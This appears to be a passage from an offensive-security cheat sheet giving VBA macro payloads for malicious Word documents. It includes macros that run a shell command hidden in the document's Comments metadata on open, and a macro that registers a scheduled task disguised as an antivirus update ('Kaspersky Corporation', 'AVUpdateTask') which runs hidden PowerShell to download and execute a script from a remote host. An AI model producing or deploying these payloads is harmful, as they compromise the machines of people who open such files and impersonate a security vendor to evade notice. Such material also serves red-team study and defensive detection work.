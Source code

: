 ```vb
CreateObject("WScript.Shell").Run "calc.exe"
CreateObject("WScript.Shell").Exec "notepad.exe"
```


### DOCM - VBA Shell Execute Comment

Set your command payload inside the **Comment** metadata of the document.

```vb
Sub beautifulcomment()
    Dim p As DocumentProperty
    For Each p In ActiveDocument.BuiltInDocumentProperties
        If p.Name = "Comments" Then
            Shell (p.Value)
        End If
    Next
End Sub

Sub AutoExec()
    beautifulcomment
End Sub

Sub AutoOpen()
    beautifulcomment
End Sub
```


### DOCM - VBA Spawning via svchost.exe using Scheduled Task

```vb
Sub AutoOpen()
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim td: Set td = service.NewTask(0)
    td.RegistrationInfo.Author = "Kaspersky Corporation"
    td.settings.StartWhenAvailable = True
    td.settings.Hidden = False
    Dim triggers: Set triggers = td.triggers
    Dim trigger: Set trigger = triggers.Create(1)
    Dim startTime: ts = DateAdd("s", 30, Now)
    startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
    trigger.StartBoundary = startTime
    trigger.ID = "TimeTriggerId"
    Dim Action: Set Action = td.Actions.Create(0)
    Action.Path = "C:\Windows\System32\powershell.exe"
    Action.Arguments = "-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
    Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
End Sub
Rem powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
```
